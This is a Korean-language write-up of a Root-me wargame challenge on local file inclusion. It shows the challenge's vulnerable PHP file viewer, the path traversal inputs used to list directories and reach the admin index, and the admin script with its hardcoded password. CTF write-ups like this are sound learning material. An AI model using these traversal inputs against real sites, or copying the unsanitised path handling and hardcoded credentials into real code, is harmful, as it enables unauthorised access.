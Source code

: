 ```yaml
---
title : Local File Inclusion
categories : [Wargame, Root-me]
tags : [LFI]
---
```


## Local File Inclusion
<hr style="border-top: 1px solid;"><br>

```
Author
g0uZ,  2 October 2011

Statement
Get in the admin section.
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```file=../```을 했더니 여러개의 파일들이 나오고 그 중 index.php가 포함되어 있음.

<br>

```php
<?php
$authorized_dir=array('esprit', 'archives', 'coding', 'sysadm', 'crypto', 'reseau');
$files_dir="files";
if (isset($_GET["files"])) $files=$_GET["files"];
else if (!isset($_GET["files"]) || !in_array($files,$authorized_dir)) $files="apps";

$aff= '<html>
       <body>
	  <h1>File viewer v 0.01</h1><span id="mnenu"/>';

if (file_exists($files_dir)){
    $d=opendir($files_dir);  
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= "&nbsp;|&nbsp;<span><a href=\"?files=$file\">";
	      if ($file==$files) $aff.= "<b>$file</b>";
	      else $aff.= "$file";
	      $aff.= "</a></span>";
	  }
    }

    $aff.="&nbsp;|<span style='text-align: right; float:right;'>Connected as : <b>guest</b>&nbsp;|&nbsp;<a href=\"admin/\">admin</a></span><br/><hr/>";
    closedir($d);
}

$full_path=realpath($files_dir."/".$files); # realpath(files/../)
if (file_exists($full_path)){
    $aff.='<table id="content">';
    $aff.='<tr><td style="vertical-align: top;">';

    $d=opendir($full_path);
    while ($file = readdir($d)) {
	  if ($file[0] == ".") { } 
	  else {
	      $aff.= '<a href="?files='.$files."&f=".$file.'" ><img width="32px" height="32px" src="text.gif" alt="'.$file.'">'.$file.'</a><br/>';
	  }
    }

    $aff.='</td><td style="vertical-align: top;">';

    if (isset($_GET["f"]) && $_GET["f"]!=""){
      $lfi_path=$full_path."/".$_GET["f"];
	    $secured_path=realpath($lfi_path);
	    $aff.= "<h3>File : ".htmlentities($_GET["f"])."</h3>";
	    $aff.= "<hr/><pre>";
	    $aff.= htmlentities(file_get_contents($secured_path));
	    $aff.= "</pre><hr/>";
    }

    $aff.='</td></tr></table>';
}

$aff.="</body></html>";
echo $aff;

?>
```

<br>

절대경로를 반환하기 때문에 도저히 방법이 생각이 안나던 중 files 경로를 건들이다가 ```files=../files../admin```을 했더니 ```index.php```가 있었음.  

<br>

```php
<?php
function http_digest_parse($txt)
{
    $needed_parts = array('nonce'=>1, 'nc'=>1, 'cnonce'=>1, 'qop'=>1, 'username'=>1, 'uri'=>1, 'response'=>1);
    $data = array();
    $keys = implode('|', array_keys($needed_parts));
 
    preg_match_all('@(' . $keys . ')=(?:([\'"])([^\2]+?)\2|([^\s,]+))@', $txt, $matches, PREG_SET_ORDER);

    foreach ($matches as $m) {
        $data[$m[1]] = $m[3] ? $m[3] : $m[4];
        unset($needed_parts[$m[1]]);
    }

    return $needed_parts ? false : $data;
}

function auth($realm){
    header('HTTP/1.1 401 Unauthorized');
    header('WWW-Authenticate: Digest realm="'.$realm.'",qop="auth",nonce="'.uniqid().'",opaque="'.md5($realm).'"');
    die($realm);
}

$realm = 'PHP Restricted area';
$users = array('admin' => 'OpbNJ60xYpvAQU8');

if (empty($_SERVER['PHP_AUTH_DIGEST'])) {
  auth($realm);
}

if (!($data = http_digest_parse($_SERVER['PHP_AUTH_DIGEST'])) || !isset($users[$data['username']]))
    auth($realm);

$A1 = md5($data['username'] . ':' . $realm . ':' . $users[$data['username']]);
$A2 = md5($_SERVER['REQUEST_METHOD'].':'.$data['uri']);
$valid_response = md5($A1.':'.$data['nonce'].':'.$data['nc'].':'.$data['cnonce'].':'.$data['qop'].':'.$A2);

if ($data['response'] != $valid_response)
    auth($realm);

echo "<html>
	<head></head>
	<body>
	    <h3>You could use this password to validate the challenge !</h3>
	</body>
      </html>";
?>
```

따라서 admin페이지에 가서 코드에 있는 비밀번호를 사용하면 들어갈 수 있음.

<br><br>
<hr style="border: 2px solid;">
<br><br>
